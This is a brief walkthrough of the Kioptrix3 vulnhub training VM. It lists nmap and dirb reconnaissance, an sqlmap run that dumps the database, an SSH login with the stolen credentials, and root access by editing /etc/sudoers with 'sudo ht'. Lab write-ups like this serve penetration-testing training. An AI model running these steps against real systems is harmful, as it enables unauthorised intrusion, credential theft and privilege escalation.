 ### target:		kioptrix3 by Kioptrix Team

### hosted by:		vulnhub.com

### testing platform:	kali linux 2017

### walkthrough by:	worzel_gummidge



the attacker runs an **nmap** port, os and version scan againat the target server.

```bash
nmap -n -T5 -A -p1-65535 192.168.56.101
```



**nmap** shows that *ssh* and *http* on *tcp80* are running on the target. the attacker runs **dir** to probe port *tcp80* further

```bash
dirb http://kioptrix3.com /usr/share/dirb/wordlists/big.txt
```



through **dirb** the attaccker discovers *kioptrix.com/gallery* and captures the following *http* request using **burp**. the request file is fed into **sqlmap** and an *sql injection* vulnerability is found

![screenshot of captured request in burp](assets/1.png "captured request")

```bash
sqlmap -r sql.txt --risk 3 --level 5 --dump-all
```



the attacker uses the credentials found in the database to ssh into the target

![screenshot of successful ssh login](assets/2.png "ssh login success")



to gain root privileges the attacker edits the /etc/sudoers file

```bash
export TERM=xterm
sudo ht /etc/sudoers
```

![screenshot: editing /etc/sudoers in xterm](assets/3.png "editing for root")



```bash
sudo /bin/bash
```

![screenshot: cat Congrats.txt](assets/4.png "we have root")
